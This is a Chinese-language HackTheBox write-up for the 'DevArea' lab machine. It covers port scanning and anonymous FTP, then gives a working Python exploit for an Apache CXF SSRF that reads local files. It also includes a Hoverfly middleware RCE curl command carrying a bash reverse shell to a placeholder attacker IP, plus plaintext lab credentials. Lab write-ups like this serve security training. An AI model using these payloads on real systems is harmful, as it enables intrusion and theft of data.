# HTB Season10 - DevArea

## 信息收集

### 端口扫描

```shell
nmap -p- --min-rate 5000 -T4 10.129.18.50
```

```shell
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
8500/tcp open  fmtp
8888/tcp open  sun-answerbook
```

```shell
nmap -p 21,22,80,8080,8500,8888 -sCV -O--min-rate 5000 -T4 10.129.18.50
```

```shell
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Sep 22  2025 pub
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:13:6b:a1:9b:28:fd:bd:5d:2b:ee:03:be:9c:8d:82 (ECDSA)
|_  256 0a:86:fa:65:d1:20:b4:3a:57:13:d1:1a:c2:de:52:78 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://devarea.htb/
|_http-server-header: Apache/2.4.58 (Ubuntu)
8080/tcp open  http    Jetty 9.4.27.v20200227
|_http-server-header: Jetty(9.4.27.v20200227)
|_http-title: Error 404 Not Found
8500/tcp open  http    Golang net/http server
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 29 Mar 2026 04:59:10 GMT
|     Content-Length: 64
|     This is a proxy server. Does not respond to non-proxy requests.
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 29 Mar 2026 04:58:51 GMT
|     Content-Length: 64
|     This is a proxy server. Does not respond to non-proxy requests.
|   HTTPOptions: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 29 Mar 2026 04:58:52 GMT
|     Content-Length: 64
|_    This is a proxy server. Does not respond to non-proxy requests.
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8888/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: Host: _; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### 子域名枚举

```shell
wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://devarea.htb -H "HOST:FUZZ.devarea.htb"
```

NULL

### 目录扫描

#### 80

```shell
dirsearch -u http://devarea.htb
```

NULL

#### 8080
```shell
dirsearch -u http://devarea.htb:8080
```

NULL

#### 8888

```shell
dirsearch -u http://devarea.htb:8888
```

```shell
Target: http://devarea.htb:8888/

[01:58:31] Starting:                                                                                                                     
[01:58:58] 301 -    0B  - /adm/index.html  ->  ./                           
[01:59:01] 301 -    0B  - /admin/index.html  ->  ./                         
[01:59:02] 301 -    0B  - /admin2/index.html  ->  ./                        
[01:59:03] 301 -    0B  - /admin_area/index.html  ->  ./                    
[01:59:09] 301 -    0B  - /adminarea/index.html  ->  ./                     
[01:59:09] 301 -    0B  - /admincp/index.html  ->  ./                       
[01:59:11] 301 -    0B  - /administrator/index.html  ->  ./                 
[01:59:15] 301 -    0B  - /api/index.html  ->  ./                           
[01:59:15] 301 -    0B  - /api/swagger/index.html  ->  ./                   
[01:59:15] 301 -    0B  - /api/swagger/static/index.html  ->  ./
[01:59:20] 301 -    0B  - /bb-admin/index.html  ->  ./                      
[01:59:23] 301 -    0B  - /cgi-bin/index.html  ->  ./                       
[01:59:29] 301 -    0B  - /core/latest/swagger-ui/index.html  ->  ./        
[01:59:32] 301 -    0B  - /demo/ejb/index.html  ->  ./                      
[01:59:33] 301 -    0B  - /doc/html/index.html  ->  ./                      
[01:59:33] 301 -    0B  - /docs/html/admin/index.html  ->  ./               
[01:59:33] 301 -    0B  - /docs/html/index.html  ->  ./                     
[01:59:34] 301 -    0B  - /druid/index.html  ->  ./                         
[01:59:36] 301 -    0B  - /estore/index.html  ->  ./                        
[01:59:36] 301 -    0B  - /examples/jsp/index.html  ->  ./                  
[01:59:37] 301 -    0B  - /examples/servlets/index.html  ->  ./             
[01:59:37] 200 -   15KB - /favicon.ico                                      
[01:59:45] 301 -    0B  - /index.html  ->  ./                               
[01:59:52] 301 -    0B  - /logon/LogonPoint/index.html  ->  ./              
[01:59:53] 301 -    0B  - /manual/index.html  ->  ./                        
[01:59:55] 301 -    0B  - /mifs/user/index.html  ->  ./                     
[01:59:56] 301 -    0B  - /modelsearch/index.html  ->  ./                   
[02:00:01] 301 -    0B  - /panel-administracion/index.html  ->  ./          
[02:00:05] 301 -    0B  - /phpmyadmin/docs/html/index.html  ->  ./          
[02:00:05] 301 -    0B  - /phpmyadmin/doc/html/index.html  ->  ./
[02:00:08] 301 -    0B  - /prod-api/druid/index.html  ->  ./                
[02:00:16] 301 -    0B  - /siteadmin/index.html  ->  ./                     
[02:00:20] 301 -    0B  - /stzx_admin/index.html  ->  ./                    
[02:00:20] 301 -    0B  - /swagger/index.html  ->  ./                       
[02:00:22] 301 -    0B  - /templates/index.html  ->  ./                     
[02:00:24] 301 -    0B  - /tiny_mce/plugins/imagemanager/pages/im/index.html  ->  ./
[02:00:29] 301 -    0B  - /vpn/index.html  ->  ./                           
[02:00:31] 301 -    0B  - /webadmin/index.html  ->  ./                      
[02:00:31] 301 -    0B  - /webdav/index.html  ->  ./                        
                                                                             
Task Completed
```

### ftp服务

```shell
ftp 10.129.18.50
anonymous
```

发现存在一个jar包`employee-service.jar`

反编译`employee-service.jar`

```shell
mkdir employee-service
cd employee-service
jar -xvf ../employee-service.jar
```



使用ai分析反编译`employee-service.jar`后的代码,详情于`Security_Analysis_Report.md`

### 站点分析

#### 80

纯静态网站,无可利用点

#### 8080

暴露服务版本为jetty9.4.27

访问`/employee-service?wsdl`返回wsdl文件

```xml
<wsdl:definitions name="EmployeeServiceService" targetNamespace="http://devarea.htb/">
<wsdl:types>
<xs:schema elementFormDefault="unqualified" targetNamespace="http://devarea.htb/" version="1.0">
<xs:element name="submitReport" type="tns:submitReport"/>
<xs:element name="submitReportResponse" type="tns:submitReportResponse"/>
<xs:complexType name="submitReport">
<xs:sequence>
<xs:element minOccurs="0" name="arg0" type="tns:report"/>
</xs:sequence>
</xs:complexType>
<xs:complexType name="report">
<xs:sequence>
<xs:element name="confidential" type="xs:boolean"/>
<xs:element minOccurs="0" name="content" type="xs:string"/>
<xs:element minOccurs="0" name="department" type="xs:string"/>
<xs:element minOccurs="0" name="employeeName" type="xs:string"/>
</xs:sequence>
</xs:complexType>
<xs:complexType name="submitReportResponse">
<xs:sequence>
<xs:element minOccurs="0" name="return" type="xs:string"/>
</xs:sequence>
</xs:complexType>
</xs:schema>
</wsdl:types>
<wsdl:message name="submitReport">
<wsdl:part element="tns:submitReport" name="parameters"> </wsdl:part>
</wsdl:message>
<wsdl:message name="submitReportResponse">
<wsdl:part element="tns:submitReportResponse" name="parameters"> </wsdl:part>
</wsdl:message>
<wsdl:portType name="EmployeeService">
<wsdl:operation name="submitReport">
<wsdl:input message="tns:submitReport" name="submitReport"> </wsdl:input>
<wsdl:output message="tns:submitReportResponse" name="submitReportResponse"> </wsdl:output>
</wsdl:operation>
</wsdl:portType>
<wsdl:binding name="EmployeeServiceServiceSoapBinding" type="tns:EmployeeService">
<soap:binding style="document" transport="http://schemas.xmlsoap.org/soap/http"/>
<wsdl:operation name="submitReport">
<soap:operation soapAction="" style="document"/>
<wsdl:input name="submitReport">
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output name="submitReportResponse">
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
</wsdl:binding>
<wsdl:service name="EmployeeServiceService">
<wsdl:port binding="tns:EmployeeServiceServiceSoapBinding" name="EmployeeServicePort">
<soap:address location="http://devarea.htb:8080/employeeservice"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```

#### 8500

该站点为代理服务,设置代理为该站点需要认证,提示为hoverfly



#### 8888

改站点服务为hoverfly,但是需要认证才能启动服务



## 漏洞利用

### Apache CXF - CVE-2024-28752

- **vulnerability Description**
  - Apache CXF 3.2.14 存在高可用的 SSRF 漏洞（CVE-2024-28752），可实现本地文件读取、内网探测。
- **漏洞原理**
  - 由于AttachmentUtil类处理附件时会自动请求附件中xop:include元素的href链接，攻击者可构造恶意href参数/SOAP请求发起SSRF攻击，获取服务器敏感信息、实现内网探测、访问内部系统或资源等恶意操作。
- **payload** 
 ```python
import requests,re,base64,sys

def xop(file_path,flag):
	url = 'http://devarea.htb:8080/employeeservice'
	headers = {
	    'SOAPAction': '""',
	    'Content-Type': 'multipart/related; type="application/xop+xml"; boundary="boundary"'
	}


	xml = f'''<?xml version="1.0" encoding="UTF-8"?>
	<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:xop="http://www.w3.org/2004/08/xop/include">
	  <soapenv:Body>
	    <submitReport xmlns="http://devarea.htb/">
	      <arg0 xmlns="">
		<confidential>false</confidential>
		<employeeName>TEST</employeeName>
		<content>
		  <xop:Include href="file://{file_path}"/>
		</content>
	      </arg0>
	    </submitReport>
	  </soapenv:Body>
	</soapenv:Envelope>'''


	data = (
	    b'--boundary\r\n'
	    b'Content-Type: application/xop+xml; charset=UTF-8; type="text/xml"\r\n'
	    b'\r\n'
	    + xml.encode() + b'\r\n'
	    b'--boundary--\r\n'
	)

	rsp = requests.post(url, headers=headers, data=data)
	encode_text = re.findall('Content: (.*)</return>', rsp.text)[0]
	decode_text = base64.b64decode(encode_text)
	if flag=='D':
		file_name=file_path.split('/')[-1]
		with open(f"./{file_name}",'wb') as f:
			f.write(decode_text)
	else:
		decode_text = base64.b64decode(encode_text).decode('utf-8')
		print(decode_text)

try:
	if len(sys.argv) == 2:
		xop(sys.argv[1], "0")
	else:
	    xop(sys.argv[1], sys.argv[2])
except IndexError:
	print(
'''should input file_path,default read mod
example: 
  read   mode: python xop.py /etc/passwd
download mode: python xop.py /tmp/1.jpg D''')
```



### Hoverfly - CVE-2025-54123

- **vulnerability Description**
  - hoverfly v1.11.3在`/api/v2/hoverfly/middleware`上易受到远程代码执

- **漏洞原理**
  - 由于对用户输入验证和清理不足导致的，这个问题是由于三个代码级别缺陷的组合而产生的：middleware.go文件的第94-96行输入验证不足；local_middleware.go文件的第14-19行不安全的命令执行；以及hoverfly_service.go文件的第173行测试期间的即时执行

#### Hoverfly Service Config

```bash
python xop.py /etc/systemd/system/hoverfly.service
```

拿到hoverfly的认证信息`admin:O7IJ27MyyXiU`



登录hoverfly服务,暴露版本为v1.11.3




- **payload**

```bash
# attack
nc -lv 4444

# vul_middleware
curl -X PUT http://devarea.htb:8888/api/v2/hoverfly/middleware -H "Authorization:Bearer Your_session_token" -H "Content-Type: application/json" -d '{"binary":"/bin/bash","script":"bash -i >& /dev/tcp/ATTACK_IP/port 0>&1"}'
```



### SysWatch

在dev_ryan家目录下发现syswatch-v1.zip,下载到本地并解压

```bash
python xop.py /home/dev_ryan/syswatch-v1.zip D
```

查看`setup.sh`配置文件发现定义本地env文件`/etc/syswatch.env`以及`SysWatch Monitor Runner`的用户和用户组均为root,`SYSWATCH_ADMIN_PASSWORD`默认密码为`SyswatchAdmin2026`






#### SysWatch GUI FIles

在GUI目录中发现,`app.py`,`syswatch.db`



查看`app.py`文件,发现init_db函数,用于初始化数据库,在数据库中存在admin用户
并且密码为服务环境变量`/etc/syswatch.env`中的`SYSWATCH_ADMIN_PASSWORD`



查看服务环境变量
```bash
# 查看服务环境变量
env /etc/syswatch.env 
```



SysWatch GUI是运行于127.0.0.1:7777



并且存在其余路由接口,交予ai分析,发现`/service-status`接口存在命令注入漏洞

